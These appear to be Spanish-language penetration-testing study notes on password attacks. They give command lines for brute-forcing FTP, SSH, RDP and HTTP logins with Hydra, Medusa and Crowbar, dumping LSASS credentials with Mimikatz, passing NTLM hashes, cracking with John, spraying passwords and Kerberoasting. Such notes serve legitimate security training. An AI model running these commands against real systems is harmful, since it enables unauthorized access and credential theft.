 # Password Attacks

Propietario: Adrian Gisbert Cabello

### 1. Introducción a los Ataques de Contraseñas

Los ataques de contraseñas tienen como objetivo descubrir y usar credenciales válidas para obtener acceso a cuentas de usuario o servicios. Hay varios enfoques comunes para estos ataques, incluyendo ataques de diccionario, fuerza bruta y el uso de hashes de contraseñas.

### 2. Enfoques Comunes

### 2.1. Ataques de Diccionario

- Utilizan listas de palabras predefinidas (wordlists) para adivinar contraseñas.
- Son más rápidos pero cubren menos combinaciones de contraseñas.

### 2.2. Ataques de Fuerza Bruta

- Intentan todas las combinaciones posibles de caracteres.
- Cubren más combinaciones pero son extremadamente lentos.

### 3. Herramientas y Técnicas

### 3.1. Wordlists

- Los wordlists se encuentran en `/usr/share/wordlists/` en Kali Linux.
- Ejemplo de uso de wordlist con `Hydra`:
    
    ```bash
    hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://1.1.1.1
    ```
    

### 3.2. Generación de Wordlists

- **Crunch**: Generador de listas de palabras.
    
    ```bash
    crunch 8 8 -t ,@@^^%%% -o wordlist.txt
    ```
    

### 3.3. Ataques Comunes a Servicios de Red

### Ataque a HTTP htaccess con Medusa

```bash
medusa -h 1.1.1.1 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

### Ataque a RDP con Crowbar

```bash
crowbar -b rdp -s 1.1.1.1/32 -u admin -C /usr/share/wordlists/rockyou.txt
```

### Ataque a SSH con THC-Hydra

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://1.1.1.1
```

### Ataque a HTTP POST con THC-Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 1.1.1.1 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
```

### 4. Aprovechamiento de Hashes de Contraseñas

### 4.1. Recuperación de Hashes de Contraseñas

- **Mimikatz**: Extrae hashes de contraseñas del proceso LSASS en Windows.
    
    ```powershell
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    ```
    

### 4.2. Pasar el Hash (Pass-the-Hash)

- **pth-winexe**: Utiliza hashes NTLM para autenticarse en sistemas Windows.
    
    ```bash
    pth-winexe -U user%aad3b435b51404eeaad3b435b51404ee:hash //1.1.1.1 cmd
    ```
    

### 4.3. Cracking de Contraseñas

- **John the Ripper**: Herramienta de cracking de contraseñas.
    
    ```bash
    john hash.txt --format=NT
    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
    ```
    

### 5. Ejemplo de Uso de Mimikatz y Pass-the-Hash

1. Extraer el hash con Mimikatz:
    
    ```powershell
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    ```
    
2. Usar el hash extraído con `pth-winexe`:
    
    ```bash
    pth-winexe -U user%aad3b435b51404eeaad3b435b51404ee:hash //1.1.1.1 cmd
    ```
    

### 6. Técnicas Avanzadas

### 6.1. Ataques "Low and Slow"

- **Spray-Passwords.ps1**: Script de PowerShell para ataques de fuerza bruta lentos en Active Directory.
    
    ```powershell
    .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
    ```
    

### 6.2. Ataques con Kerberoasting

- **Invoke-Kerberoast.ps1**: Script de PowerShell para realizar Kerberoasting.
    
    ```powershell
    Invoke-Kerberoast -OutputFormat Hashcat
    ```